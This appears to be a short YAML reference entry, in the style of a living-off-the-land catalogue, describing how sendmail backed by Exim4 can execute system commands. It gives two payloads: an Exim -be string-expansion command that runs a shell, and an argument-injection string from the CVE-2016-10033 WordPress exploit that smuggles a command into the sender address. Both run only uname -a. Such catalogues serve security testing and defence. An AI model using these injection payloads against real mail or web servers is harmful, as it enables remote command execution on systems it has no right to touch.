 ```yaml
---
description: sendmail differs between systems, depending on whether it is postfix, exim, or otherwise, which provides the binary.
functions:
  command:
    - description: The -be flag can be used to execute system commands, when sendmail is provided by Exim4. 
      code: |
        sendmail -be '${run{/bin/sh -c "uname -a"}{yes}{no}}'
    - description: See [\"PoC HTTP request / minimal PoC exploit\"](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html) for more information about this exploit. This example runs `uname -a`.
      code: |
        sendmail -t -i -femail@address.com(tmp1 -be '${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}uname${substr{10}{1}{$tod_log}}-a$}}' tmp2)

---
```

